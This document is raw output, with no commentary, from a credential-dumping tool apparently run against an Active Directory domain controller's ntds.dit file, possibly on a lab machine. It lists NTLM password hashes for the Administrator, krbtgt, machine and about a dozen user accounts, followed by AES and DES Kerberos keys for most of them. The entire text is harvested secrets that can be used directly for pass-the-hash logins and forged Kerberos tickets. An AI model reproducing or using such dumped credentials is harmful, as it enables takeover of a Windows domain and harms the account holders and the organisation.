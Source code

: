 ```
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:12579b1666d4ac10f0f59f300776495f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
RESOURCEDC$:1000:aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3004b16f88664fbebfcb9ed272b0565b:::
M.Mason:1103:aad3b435b51404eeaad3b435b51404ee:3105e0f6af52aba8e11d19f27e487e45:::
K.Keen:1104:aad3b435b51404eeaad3b435b51404ee:204410cc5a7147cd52a04ddae6754b0c:::
L.Livingstone:1105:aad3b435b51404eeaad3b435b51404ee:19a3a7550ce8c505c2d46b5e39d6f808:::
J.Johnson:1106:aad3b435b51404eeaad3b435b51404ee:3e028552b946cc4f282b72879f63b726:::
V.Ventz:1107:aad3b435b51404eeaad3b435b51404ee:913c144caea1c0a936fd1ccb46929d3c:::
S.Swanson:1108:aad3b435b51404eeaad3b435b51404ee:bd7c11a9021d2708eda561984f3c8939:::
P.Parker:1109:aad3b435b51404eeaad3b435b51404ee:980910b8fc2e4fe9d482123301dd19fe:::
R.Robinson:1110:aad3b435b51404eeaad3b435b51404ee:fea5a148c14cf51590456b2102b29fac:::
D.Durant:1111:aad3b435b51404eeaad3b435b51404ee:08aca8ed17a9eec9fac4acdcb4652c35:::
G.Goldberg:1112:aad3b435b51404eeaad3b435b51404ee:62e16d17c3015c47b4d513e65ca757a2:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:73410f03554a21fb0421376de7f01d5fe401b8735d4aa9d480ac1c1cdd9dc0c8
Administrator:aes128-cts-hmac-sha1-96:b4fc11e40a842fff6825e93952630ba2
Administrator:des-cbc-md5:80861f1a80f1232f
RESOURCEDC$:aes256-cts-hmac-sha1-96:b97344a63d83f985698a420055aa8ab4194e3bef27b17a8f79c25d18a308b2a4
RESOURCEDC$:aes128-cts-hmac-sha1-96:27ea2c704e75c6d786cf7e8ca90e0a6a
RESOURCEDC$:des-cbc-md5:ab089e317a161cc1
krbtgt:aes256-cts-hmac-sha1-96:12b5d40410eb374b6b839ba6b59382cfbe2f66bd2e238c18d4fb409f4a8ac7c5
krbtgt:aes128-cts-hmac-sha1-96:3165b2a56efb5730cfd34f2df472631a
krbtgt:des-cbc-md5:f1b602194f3713f8
M.Mason:aes256-cts-hmac-sha1-96:21e5d6f67736d60430facb0d2d93c8f1ab02da0a4d4fe95cf51554422606cb04
M.Mason:aes128-cts-hmac-sha1-96:99d5ca7207ce4c406c811194890785b9
M.Mason:des-cbc-md5:268501b50e0bf47c
K.Keen:aes256-cts-hmac-sha1-96:9a6230a64b4fe7ca8cfd29f46d1e4e3484240859cfacd7f67310b40b8c43eb6f
K.Keen:aes128-cts-hmac-sha1-96:e767891c7f02fdf7c1d938b7835b0115
K.Keen:des-cbc-md5:572cce13b38ce6da
L.Livingstone:aes256-cts-hmac-sha1-96:cd8a547ac158c0116575b0b5e88c10aac57b1a2d42e2ae330669a89417db9e8f
L.Livingstone:aes128-cts-hmac-sha1-96:1dec73e935e57e4f431ac9010d7ce6f6
L.Livingstone:des-cbc-md5:bf01fb23d0e6d0ab
J.Johnson:aes256-cts-hmac-sha1-96:0452f421573ac15a0f23ade5ca0d6eada06ae85f0b7eb27fe54596e887c41bd6
J.Johnson:aes128-cts-hmac-sha1-96:c438ef912271dbbfc83ea65d6f5fb087
J.Johnson:des-cbc-md5:ea01d3d69d7c57f4
V.Ventz:aes256-cts-hmac-sha1-96:4951bb2bfbb0ffad425d4de2353307aa680ae05d7b22c3574c221da2cfb6d28c
V.Ventz:aes128-cts-hmac-sha1-96:ea815fe7c1112385423668bb17d3f51d
V.Ventz:des-cbc-md5:4af77a3d1cf7c480
S.Swanson:aes256-cts-hmac-sha1-96:8a5d49e4bfdb26b6fb1186ccc80950d01d51e11d3c2cda1635a0d3321efb0085
S.Swanson:aes128-cts-hmac-sha1-96:6c5699aaa888eb4ec2bf1f4b1d25ec4a
S.Swanson:des-cbc-md5:5d37583eae1f2f34
P.Parker:aes256-cts-hmac-sha1-96:e548797e7c4249ff38f5498771f6914ae54cf54ec8c69366d353ca8aaddd97cb
P.Parker:aes128-cts-hmac-sha1-96:e71c552013df33c9e42deb6e375f6230
P.Parker:des-cbc-md5:083b37079dcd764f
R.Robinson:aes256-cts-hmac-sha1-96:90ad0b9283a3661176121b6bf2424f7e2894079edcc13121fa0292ec5d3ddb5b
R.Robinson:aes128-cts-hmac-sha1-96:2210ad6b5ae14ce898cebd7f004d0bef
R.Robinson:des-cbc-md5:7051d568dfd0852f
D.Durant:aes256-cts-hmac-sha1-96:a105c3d5cc97fdc0551ea49fdadc281b733b3033300f4b518f965d9e9857f27a
D.Durant:aes128-cts-hmac-sha1-96:8a2b701764d6fdab7ca599cb455baea3
D.Durant:des-cbc-md5:376119bfcea815f8
G.Goldberg:aes256-cts-hmac-sha1-96:0d6ac3733668c6c0a2b32a3d10561b2fe790dab2c9085a12cf74c7be5aad9a91
G.Goldberg:aes128-cts-hmac-sha1-96:00f4d3e907818ce4ebe3e790d3e59bf7
G.Goldberg:des-cbc-md5:3e20fd1a25687673
[*] Cleaning up...
```
